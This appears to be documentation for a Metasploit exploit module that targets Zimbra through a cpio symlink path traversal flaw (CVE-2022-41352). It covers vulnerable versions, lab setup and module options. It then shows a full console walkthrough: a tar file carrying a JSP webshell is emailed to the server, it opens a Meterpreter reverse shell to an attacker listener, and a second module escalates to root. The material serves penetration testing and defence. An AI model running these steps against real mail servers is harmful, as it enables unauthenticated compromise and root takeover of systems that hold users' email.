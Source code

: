 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in `cpio`
(that's identified as CVE-2015-1197) that's exploitable in Zimbra. The
following versions of Zimbra are vulnerable:

* Zimbra Collaboration Suite 9.0.0 Patch 26 (and earlier)
* Zimbra Collaboration Suite 8.8.15 Patch 33 (and earlier)

The patch for Zimbra adds `pax` as a pre-requisite, so any version of Zimbra
(except Ubuntu 18.04, which has a patched `cpio` binary) can be made vulnerable
with `rm $(which pax)`.

To verify a host is vulnerable, ensure that `pax` is not installed on the host.
Also, validate that `cpio` is listed in `amavisd.conf` as an option to extract
.tar/.cpio files:

```
[ron@mail tmp]$ sudo cat /opt/zimbra/conf/amavisd.conf | grep cpio
[...]

  [['cpio','tar'], \&do_pax_cpio, ['pax', 'gcpio', 'cpio'] ],
```

Note that this can be chained with other Zimbra exploits to get root.

### Installing Zimbra

Create a VM

```
HDD = 128gb
Memory/etc don't matter
```

I installed a local DNS server (note: replace `<ip>` with the host's actual ip)
(other note: replace `apt` with `yum` to do this on a Red Hat-derived system):

```
sudo apt update && sudo apt install dnsmasq
sudo hostnamectl set-hostname mail.example.org
echo "<ip> mail.example.org" | sudo tee -a /etc/hosts
echo -e 'listen-address=127.0.0.1\nserver=8.8.8.8\ndomain=example.org\nmx-host=example.org, mail.example.org, 5\nmx-host=mail.example.org, mail.example.org, 5' | sudo tee /etc/dnsmasq.conf
```

Configure the host to use it:

```
sudo systemctl disable systemd-resolved
sudo systemctl stop systemd-resolved
sudo killall dnsmasq
sudo systemctl restart dnsmasq
echo "nameserver 127.0.0.1" | sudo tee /etc/resolv.conf
```

Download Zimbra from
https://www.zimbra.com/downloads/zimbra-collaboration-open-source/ - you'll
have to sell your soul and opt-in to spam, but they don't validate your email.

```
tar -xvvzf zcs-*.tgz
cd zcs*
sudo ./install.sh

* Lots of <enter>
* DO NOT install `dnscache` module (respond `N` when it ask), I had conflict issues with the local `dnsmasq`
* Yes change the system
* Setup the admin password, probably turn off auto-updates
```


## Verification Steps

1. Do: `use exploit/linux/http/zimbra_cpio_cve_2022_41352`
1. Do: `set RHOSTS <target>`
1. Do: `set LHOST <listenerip>`
1. Do: `exploit`


## Options

### `FILENAME`

The filename to generate - defaults to `payload.tar`, but can be changed on the
filesystem or whatever.

### `TARGET_PATH`

The absolute path where the payload will extract to. The default is the
webroot, which is usually what you want

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't
execute.

By default, it's a random string with `.jsp` on the end, in the `public/`
folder. That should work fine, especially because we can't overwrite files and
don't want to use the same payload name more than once.

### `SYMLINK_FILENAME`

The path used for the symlink inside the archive; you probably won't ever want
to change this (default: random)

### `TRIGGER_PAYLOAD`

A boolean, default `true`, that determines whether we use HTTP requests to
trigger the .jsp payload. Set to `false` to trigger the payload manually.

### `ListenerTimeout`

The number of seconds to wait for a new session (default = `0`, or infinite).

### `CheckInterval`

The frequency with which to check for the payload on the server. Every
`CheckInterval`, it performs an HTTP request to the payload path.


## Scenarios

To exploit Zimbra, first load the module and generate the .tar file:

```
msf > use exploit/linux/http/zimbra_cpio_cve_2022_41352
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > set LHOST 172.16.166.147
LHOST => 172.16.166.147
msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > set RHOSTS 172.16.166.158
RHOSTS => 172.16.166.158
msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Encoding the payload as a .jsp file
[*] Adding symlink to path to .tar file: /opt/zimbra/jetty_base/webapps/zimbra/
[*] Adding target file to the archive: public/bdhg.jsp
[+] payload.tar stored at /home/ron/.msf4/local/payload.tar
[+] File created! Email the file above to any user on the target Zimbra server

[...] waiting [...]
```

Then, email that file to any user (including a non-existent mailbox) on the
Zimbra server. Once the payload arrives at Zimbra, Zimbra should try to extract
it to check for malware with no user interaction. Metasploit should see the
malicious file extracted and get a session:

```
[...]
[+] File created! Email the file above to any user on the target Zimbra server
[*] Trying to trigger the backdoor @ public/bdhg.jsp every 5s [backgrounding]...

[file emailed]

[*] Sending stage (3045348 bytes) to 172.16.166.158
[*] Meterpreter session 1 opened (172.16.166.147:4444 -> 172.16.166.158:44808) at 2022-10-06 10:27:34 -0700

msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: zimbra
```

For bonus points, use a different module to get root:

```
msf exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_slapper_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp

msf exploit(linux/local/zimbra_slapper_priv_esc) > set SESSION 1
SESSION => 1

msf exploit(linux/local/zimbra_slapper_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.vT1bDSvZV
[*] Attempting to trigger payload: sudo /opt/zimbra/libexec/zmslapd -u root -g root -f /tmp/.vT1bDSvZV/.RhmWwHRn
[*] Sending stage (3045348 bytes) to 172.16.166.158
[+] Deleted /tmp/.vT1bDSvZV
[*] Meterpreter session 2 opened (172.16.166.147:4444 -> 172.16.166.158:60166) at 2022-10-06 10:45:30 -0700

meterpreter > getuid
Server username: root
```

